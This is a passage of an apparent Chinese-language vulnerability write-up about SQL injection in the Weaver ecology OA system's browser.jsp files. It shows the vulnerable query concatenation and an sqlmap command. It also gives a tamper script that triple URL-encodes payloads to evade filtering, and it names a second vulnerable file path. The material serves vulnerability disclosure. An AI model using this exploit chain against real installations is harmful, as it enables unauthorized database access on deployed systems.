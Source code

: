 ```
var2 = var2 + &#34; and name like '%&#34; + this.keyword + &#34;%'&#34;;  
```

### 漏洞复现  

```
python sqlmap.py -r 1.txt --tamper=urlencode3 --batch --random-agent --level 3
```

#### tamper 脚本  

```
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

defdependencies():
    pass

# URL encoding for all characters
deftamper(payload, **kwargs):
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = encoded_payload.replace(' ', '%20')
    return encoded_payload
```

## 捡到CNVD证书  
  
从上一个 browser.jsp 注入漏洞中发现，其他目录也存在该文件  
  
漏洞文件路径：
```
\ecology\mobile\plugin\crm\browser.jsp
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz7hRT2jhFdwf0SqAbATANAXWQjO0NWesbJz7gB0SV6NOTnlZnZjNuCHgg8Cqmib6ic2Zibey43OW2lXw/640?wx_fmt=png&from=appmsg "")  
  

```
Keyword 
```

  
参数传入了 
```
BrowserAction 
```

  
类中，并且在类中的方法中sql语句拼接了 
```
Keyword 
```

